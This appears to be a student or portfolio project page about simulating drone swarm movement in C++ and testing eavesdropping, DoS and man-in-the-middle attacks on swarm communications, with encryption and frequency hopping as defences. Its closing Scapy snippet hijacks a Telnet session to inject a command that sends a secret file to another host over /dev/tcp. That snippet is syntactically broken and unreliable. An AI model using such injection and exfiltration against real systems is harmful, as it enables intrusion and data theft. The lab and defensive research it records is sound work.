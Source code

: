 ```yaml
---
layout: project
type: project
image: img/Screenshot-2024-09-04-001147.png
title: "Unmanned Swarms"
date: 2024
published: true
labels:
  - Robotics
  - Simulation
  - C++
  - Python
  - Wireless Attacks
summary: "My team simulated and researched how drone swarm communications could be intercepted wirelessly."
---
```



My team and I developed a simulation of drone swarm movements using C++. We then conducted tests to explore methods for intercepting the communication between the drones, aiming to assess vulnerabilities in the system and potential defense strategies.

For the simulation, we needed to replicate the movement patterns of unmanned drones. Specifically, we implemented autonomous wall-following, a feature that enables a drone to navigate along a vertical surface, such as a wall, while maintaining a consistent distance. We achieved this by developing an algorithm that allows the drone to detect the proximity of the wall, adjust its trajectory, and follow the contour of the surface. In practical terms, this functionality is especially useful in environments like indoor spaces, tunnels, or urban areas where structures and boundaries are integral to navigation.

Our code incorporated the Gauss Markov mobility model, which adjusts to varying levels of randomness. In this model, speed and direction are derived from a Gaussian-distributed random variable. This approach is effective for simulating the movement of vehicles or drones that exhibit inertia, where future trajectories are influenced by their current state. The model operates within predefined physical boundaries, defined as a 2D box with specific X and Y limits. The mobility model updates the position of each drone at regular time intervals. A smoothing factor balances the randomness and the influence of the previous state in new state calculations. 

We experimented with different types of attacks on the drone swarm communication system with Python scripts. Passive attacks involved eavesdropping on wireless communications without altering data or affecting system operations, allowing us to quietly gather information. We also tested Denial of Service (DoS) attacks by flooding the network or specific devices with excessive traffic to disrupt or disable communication. Lastly, we explored Man-in-the-Middle (MitM) attacks, where communication between two parties was intercepted and potentially altered without their knowledge. 

These experiments helped us assess the vulnerabilities of unmanned drone swarm communication systems. To mitigate these attacks, we implemented several solutions, including strong encryption protocols to secure data transmitted over the wireless network, ensuring confidentiality and integrity. Additionally, we employed Frequency Hopping Spread Spectrum (FHSS), a technique that randomly switches communication frequencies, making it significantly more difficult for attackers to jam or intercept signals, thereby enhancing the resilience of the system.

Here is some code that illustrates how we hijacked the wireless communication:

```py
print("SENDING SESSION HIJACKING PACKET.........")
 IPLayer= IP(src="10.0.2.5", dst="10.0.2.6")                   //set IPS
 TCPLayer= TCP(sport=' ' , dport=23, flags="A",                //set Ports and Flag
 seq=' ', ack=' ')                                             //set sequence and acknowlege
 Data = "\r cat /home/seed/secret > /dev/tcp/10.9.0.1/9090\r"  //set malicious packet
 pkt = IPLayer/TCPLayer/Data                                   //set packet type
 ls(pkt)
 send(pkt,verbose=0) 
```
